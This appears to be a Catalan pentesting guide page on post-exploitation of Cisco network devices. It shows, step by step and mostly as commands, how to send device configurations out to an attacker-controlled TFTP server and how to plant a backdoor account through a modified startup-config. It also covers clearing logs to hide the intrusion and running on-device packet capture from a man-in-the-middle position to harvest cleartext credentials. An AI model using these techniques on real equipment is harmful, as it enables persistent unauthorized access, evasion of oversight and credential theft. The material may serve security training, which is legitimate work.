



## Fitxers de Configuració de Dispositius  
  
### Arxius Startup-config i Running-config  

--- 

### Obtenció arxiu de configuracions

#### Requisitis  
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

Tot i que no es tracta d'una explotació o atac en si, la tecnica d'obtenció d'arxius de configuració pot resultar molt
important a l'hora de dur a terme d'altres atacs o per assolir persistencia en accions de post-explotació. A banda d'aixó
permetrà obtenir informació que potser no s'ha descobert mitjançant l'escaneig del dispositiu, i en general millorarà la
qualitat d'informació de la que disposem d'aquest. Cal notar que per a cada model de dispositiu les comandes poden variar,
així doncs caldrà disposar dels manuals corresponents per aquells dispositius amb els que s'estigui treballant.

#### Comandes a dispositius cisco  
`copy running-config <ftp/tftp>`  
`<servidor_destí/remote_host>`  
`<nom_fitxer>`  

#### Execució  
Una vegada s'ha obtingut accés privilegiat a un dispositiu, es pot trobar tota la configuració d'arrancada al fitxer 
**startup-config** i la configuració actual de funcionament a **running-config**. Existeix una comanda cisco per descarregar
aquesta informació a través de protocols tftp i ftp. Partint de que aquests ja es troben instalats a la màquina atacant,
es procedeix a descarregar-los. El directori per defecte on s'emmagatzemaran és `/srv/ftp` o `/srv/tftp`, i per a que es
pugui descarregar correctament l'arxiu al servidor s'haurà de crear per avançat l'arxiu que s'utilitzarà com a destí.
Addicionalment s'ha de canviar els permisos d'aquests arxius per que es pugui escriure sobre aquests.

`cd /srv/tftp`  
`touch running-config.txt startup-config.txt`  
`chmod 777 running-config.txt`  
`chmod 777 startup-config.txt`  

S'executen les comandes per a copiar els arxius

`copy running-config tftp`  
`192.168.3.2`  
`running-config.txt`  

`copy startup-config tftp`  
`192.168.3.2`  
`startup-config.txt`  

  

Una vegada descarregats i emmagatzemats al directori corresponent es pot analitzar el seu contingut.

  

Rarament resultarà tant senzill, pero d'assolir aquest nivell d'accés es podria dir que es te control gairebe complert 
sobre aquell domini de la xarxa i totes les funcions o serveis que el dispositiu pogués oferir.

---  

### Càrrega d'arxiu de configuracions  

#### Requisitis    
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

La descàrrega dels arxius de configuració pot semblar que no afegeix molt de valor ja que ja es disposava d'accés privilegiat 
al dispositiu. Un ús que es pot donar a aquests arxius i que es descriu més endavant a **atacs Synflood** és la càrrega 
d'arxius d'arrencada modificats al dispositiu, de cara a modificar-ne la configuració d'una manera més subtil que no pas
directament sobre la CLI del dispositiu, fet que pot deixar una petjada molt reconeixible en forma de logs.

#### Comandes a dispositius cisco  
`copy <ftp/tftp>: <arxiu> `  
`<servidor_destí/remote_host>`  
`<nom_fitxer_destí>`  

#### Execució    
Una vegada descarregats els arxius de configuració d'un dispositiu, un dels objectius és de disposar de permanencia d'accés
per si es modifiquessin les claus o noms d'usuaris que s'han utilitzat per accedir en primer lloc al dispositiu. Per a fer-ho
s'afegiran credencials a la configuració del dispositiu per a que quan aquest es pugui arribar a reiniciar, que aquestes modificacions
s'apliquin.

Modifiquem l'arxiu corresponent que s'ha descarregat a l'anterior exemple. S'afegeix un usuari i una clau d'accés en la 
forma següent:
> username atacant password 0 persistencia

Carreguem l'arxiu i una vegada carregadt, i per a exemplificar el cas, es realitza un reinici forçat del dispositiu per 
comprobar que la nova configuració inclou les nostres credencials, en el cas real aquest reinici es realitzaria per part
de la víctima en un moment indeterminat.

`copy tftp: startup-config`
`192.168.3.2`
`<enter>`

S'intenta accedir al dispositiu amb les credencials per determinar si s'ha realitzat correctament el procediment

Ja es disposa de permanencia al dispositiu. Si be aquesta és fàcil de revertir en cas de ser descoberta, caldrà que s'analitzi
al detall l'arxiu de configuració en primer lloc. Addicionalment es pot mirar de netejar els *logs* mitjançant la comanda
`clear log` o `clear logging` per a que no quedi rastre de les accions dutes a terme, tot i que un resgistre de *logs*
buits tambe podria despertar certes sospites.

---  

### Captura de paquets i exportació de fitxer .pcap per al seu anàlisi  

#### Requisitis    
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

Com amb els anteriors dos exemples, aquesta técnica no es tracta d'un atac sinó d'una eina utilitzada normalment per analitzar
el funcionament d'una xarxa, pero serà de molta ajuda coneixer el seu ús quan es disposi d'una posició MiTM i es vulgui capturar
informació que servirà de cara a altres atacs.

#### Execució    
L'execució d'aquesta técnica és senzilla i pot variar segons els models amb els que s'estigui treballant. En el cas dels
models Cisco que s'han descobert a la xarxa, una vegada s'hagi accedit a aquests, es configuraran per a realitzar tasques
de captures de paquets a emmagatzemar en un buffer que despres es podrà exportar.

Les comandes de configuració per a la captura de paquets sobre una interfície concreta del dispositiu són les següents:

>monitor capture buffer MiTM_PCAP_BUFF size 2048 max-size 1024 circular  
>monitor capture point ip cef MiTM_PCAP_POINT g0/0 both  
>monitor capture point tcp MiTM_PCAP_POINT_TCP both filter ipv4   
>  
>ip access-list extended PCAP  
>permit icmp host 100.64.0.130 any  
>permit icmp any host 100.64.0.130  
>   
>monitor capture point associate MiTM_PCAP_POINT MiTM_PCAP_BUFF  
>monitor capture point associate MiTM_PCAP_POINT_TCP MiTM_PCAP_BUFF  
>   
>monitor capture point start MiTM_PCAP_POINT  
>monitor capture point start MiTM_PCAP_POINT_TCP  

Una vegada s'han capturat paquets, els buffers es poden exportar a un servidor tftp per a ser examinats amb wireshark des de 
la màquina atacant:

> monitor capture buffer MiTM_PCAP_BUFF export tftp://192.168.3.2/capture.pcap  

Informació útil que cercarem entre d'altres són paquets de protocols d'encaminament, credencials en text en clar i d'altres
paquets que puguin millorar el coneixement de la xarxa del que es disposa.  

> **Note**  
> Cal tenir en conte que segons regles de tallafocs o ACL existents és possible que no es pugui realitzar l'exportació.
> Caldrà modificar aquestes de manera temporal per permetre el trànsit de paquets tftp.

